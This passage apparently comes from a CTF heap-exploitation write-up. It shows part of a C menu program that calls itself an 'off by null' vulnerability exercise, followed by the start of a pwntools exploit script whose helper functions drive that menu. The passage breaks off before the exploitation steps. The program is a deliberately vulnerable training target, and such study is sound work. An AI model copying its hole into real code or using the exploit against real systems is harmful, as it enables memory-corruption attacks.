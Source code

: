 ```c
	free(chunks[index].point);
	chunks[index].point=0;
	chunks[index].size=0;
}
void menu()
{
	puts("1) add a chunk");
	puts("2) show content");
	puts("3) edit a chunk");
	puts("4) delete a chunk");
	putchar('>');
}
void main()
{
	unsigned int choice;
	puts("Welcome to my off by null vuln vulnerability exercise.");
	puts("wish you will play happy!");
	while(1)
	{
		menu();
		scanf("%d",&choice);
		switch(choice)
		{
			case 1:
				add();
				break;
			case 2:
				show();
				break;
			case 3:
				edit();
				break;
			case 4:
				delete();
				break;
			default:
				exit(0);
		}
	}

}

```

exp：

```python
from pwn import *
import libcfind

e=ELF('./text')


def add(num,size):
    p.sendline('1')
    p.recvuntil('Index?')
    p.sendline(str(num))
    p.recvuntil('Size?')
    p.sendline(str(size))

def show(num):
    p.sendline('2')
    p.recvuntil('Index?')
    p.sendline(str(num))
```